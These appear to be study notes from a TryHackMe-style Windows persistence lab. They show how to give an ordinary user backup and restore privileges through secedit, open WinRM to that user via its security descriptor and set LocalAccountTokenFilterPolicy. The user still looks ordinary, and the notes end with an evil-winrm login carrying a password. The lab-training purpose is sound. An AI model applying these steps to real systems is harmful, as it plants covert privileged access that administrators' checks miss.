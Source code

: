 A similar result to adding a user to the Backup Operators group can be achieved without modifying any group membership. Special groups are only special because the operating system assigns them specific privileges by default. **Privileges** are simply the capacity to do a task on the system itself. They include simple things like having the capabilities to shut down the server up to very privileged operations like being able to take ownership of any file on the system. A complete list of available privileges can be found [here](https://docs.microsoft.com/en-us/windows/win32/secauthz/privilege-constants) for reference.
	![[Pasted image 20240909192900.png]]
In the case of the Backup Operators group, it has the following two privileges assigned by default:
- **SeBackupPrivilege:** The user can read any file in the system, ignoring any DACL in place.
- **SeRestorePrivilege:** The user can write any file in the system, ignoring any DACL in place.

To do so, we can use the `secedit` command. First, we will export the current configuration to a temporary file:
```powershell
secedit /export /cfg config.inf
```
![[Pasted image 20240909195731.png]]

We convert the .inf file into a .sdb file which is then used to load the configuration back into the system:
```powershell
secedit /import /cfg config.inf /db config.sdb

secedit /configure /db config.sdb /cfg config.inf
```

You should now have a user with equivalent privileges to any Backup Operator. The user still can't log into the system via WinRM, so let's do something about it. Instead of adding the user to the Remote Management Users group, we'll change the security descriptor associated with the WinRM service to allow thmuser2 to connect. Think of a **security descriptor** as an ACL but applied to other system facilities.

To open the configuration window for WinRM's security descriptor, you can use the following command in Powershell (you'll need to use the GUI session for this):
```powershell
Set-PSSessionConfiguration -Name Microsoft.PowerShell -showSecurityDescriptorUI
```
![[Pasted image 20240909195809.png]]

Notice that for this user to work with the given privileges fully, you'd have to change the **LocalAccountTokenFilterPolicy** registry key:
```shell-session
C:\> reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /t REG_DWORD /v LocalAccountTokenFilterPolicy /d 1
```
 
 Checking our user's group memberships, it will look like a regular user. Nothing suspicious at all!
```shell-session
C:\> net user thmuser2
User name                    thmuser2

Local Group Memberships      *Users
Global Group memberships     *None
```

```
evil-winrm -i 10.10.6.17 -u thmuser2 -p Password321
```
